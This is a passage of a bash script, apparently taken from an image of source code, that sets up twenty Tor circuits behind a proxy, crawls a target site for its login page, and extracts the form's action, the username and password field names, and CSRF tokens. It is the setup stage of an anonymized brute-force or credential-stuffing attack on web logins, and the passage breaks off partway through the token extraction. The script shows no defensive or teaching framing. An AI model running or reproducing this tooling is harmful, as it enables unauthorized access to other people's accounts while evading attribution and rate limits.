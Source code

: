 ```bash
if command -v multitor &>/dev/null; then
    multitor -k &>/dev/null
fi

sudo multitor --init 20 --user debian-tor --socks-port 9000 --control-port 9900 --proxy privoxy

# Find Login Page
LOGIN=$(katana -u "$URL" -depth 3 -silent | \
grep -iE "/(login|signin|sign-in|auth|user/login|admin/login|my-account|account|wp-login\.php)(/)?$" | \
grep -viE "lost-password|reset|forgot|register|signup|signout|logout|\.(js|css|jpg|png|gif|svg|ico)$" | \
sed 's:[/?]*$::' | sed 's:$:/:')

if [ -z "$LOGIN" ]; then
    color_print RED "[!] No login page found. Exiting."
    exit 1
fi

HTML=$(curl -s "$LOGIN")
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 100)

# CAPTCHA check
[ -z "$ACTION" ] && ACTION="$LOGIN"
if echo "$HTML" | grep -qiE "g-recaptcha|recaptcha|h-captcha|data-sitekey|captcha|grecaptcha.execute|hcaptcha.execute"; then
    CAPTCHA=""
fi

# Extract Form Action & Method
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
[ -z "$ACTION" ] && ACTION="$LOGIN"

METHOD=$(echo "$FORM" | grep -oEi 'method="[^"]+"' | head -1 | cut -d'"' -f2 | tr '[:upper:]' '[:lower:]')
[ -z "$METHOD" ] && METHOD="post"

BASE_URL=$(echo "$URL" | sed 's|^\(https\?://[^/]*\).*|\1|')
if [[ "$ACTION" == /* ]]; then
    FULL_ACTION="${BASE_URL}${ACTION}"
elif [[ "$ACTION" =~ ^https?:// ]]; then
    FULL_ACTION="$ACTION"
else
    FULL_ACTION=$(dirname "$LOGIN")"/$ACTION"
fi

# Extract Username & Password Fields
USERNAME_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'user(name)?|login(_id)?|userid|uname|mail|email|auth_user' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
PASSWORD_FIELD=$(echo "$FORM" | grep -oEi '<input[^>]*name="[^"]+"' | grep -Ei 'pass(word)?|passwd|pwd|auth_pass|login_pass' | head -1 | sed -E 's/.*name="([^"]+)".*/\1/')
[ -z "$USERNAME_FIELD" ] && USERNAME_FIELD="username"
[ -z "$PASSWORD_FIELD" ] && PASSWORD_FIELD="password"

# CSRF Token Extraction
CSRF_FIELD=""
CSRF_VALUE=""
HIDDEN_INPUTS=$(echo "$FORM" | grep -oiP '<input[^>]+type=["'\'']?hidden["'\'']?[^>]*>')
while read -r INPUT; do
    NAME=$(echo "$INPUT" | grep -oiP 'name=["'\'']?\K[^"'\'' ]+')
    VALUE=$(echo "$INPUT" | grep -oiP 'value=["'\'']?\K[^"'\'' ]+')
    if [[ "$NAME" =~ csrf|token|nonce|authenticity|verification ]]; then
        CSRF_FIELD="$NAME"
```